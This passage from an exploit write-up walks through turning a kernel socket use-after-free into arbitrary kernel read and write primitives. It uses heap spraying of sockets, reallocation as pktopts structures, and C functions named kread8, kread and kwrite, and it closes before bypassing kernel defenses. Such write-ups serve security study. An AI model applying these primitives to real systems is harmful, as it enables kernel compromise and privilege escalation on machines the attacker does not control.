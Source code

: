 ### So what next?
We still cannot directly write a socket object, so let us free the sprayed socket's and re-allocate them with `struct pktopts` which are basically "packet options" (pktopts) and can be written to read from.
```c
// master_sock and overlap_sock point to the same pktopts
  overlap_sock = spray_sock[idx];
  spray_sock[idx] = new_socket();
  printf("[+] Overlap socket: %x (%x)\n", overlap_sock, idx);
  // Reallocate pktopts
  for (int i = 0; i < NUM_SPRAY; i++) {
    free_pktopts(spray_sock[i]);
    set_tclass(spray_sock[i], 0);
  }
  // Fake master pktopts
  idx = fake_pktopts(0);
  overlap_sock = spray_sock[idx];
  spray_sock[idx] = new_socket(); // use new socket so logic in spraying will be easier
  printf("[+] Overlap socket: %x (%x)\n", overlap_sock, idx);
```
Let's see what we have accomplished: We now have a `
struct in6_pktinfo` (which is basically like a buffer we can write to and read from) and a `struct sock` at the same location. Thus, if we fill a particular offset of the pktinfo with an arbitrary pointer `x`, and then call `getsockopt()` (with appropriate options) on the victim socket, it will dereference the pointer and think that the contents of address `x` are the options and return it! Which means we have **arbitrary kernel read!**. We can read any 8 bytes of any kernel address like this:
```c
static void write_to_victim(uint64_t addr) {
  char buf[sizeof(struct in6_pktinfo)];
  *(uint64_t *)(buf + 0x00) = addr;
  *(uint64_t *)(buf + 0x08) = 0;
  *(uint32_t *)(buf + 0x10) = 0;
  set_pktinfo(master_sock, buf);
}
```
```c
static uint8_t kread8(uint64_t addr) {
  char buf[sizeof(struct in6_pktinfo)];
  write_to_victim(addr);
  get_pktinfo(victim_sock, buf);
  return *(uint8_t *)buf;
}
```
And now, we can turn this quite simply to an arbitrary sized read:
```c
static void kread(void *dst, uint64_t src, size_t len) {
  for (int i = 0; i < len; i++)
    ((uint8_t *)dst)[i] = kread8(src + i);
}
```
### Arbitrary write
We can also use the same primitive for arbitrary kernel write: we can write an address `y` to our pktinfo buffer, and then call `setsockopt()` instead of `getsockopt()` to write to the same address.
```c
static int kwrite(uint64_t addr, void *buf) {
  write_to_victim(addr);
  return set_pktinfo(victim_sock, buf);
}
```
Now that we have both primitives lets get to defeating some kernel defenses.
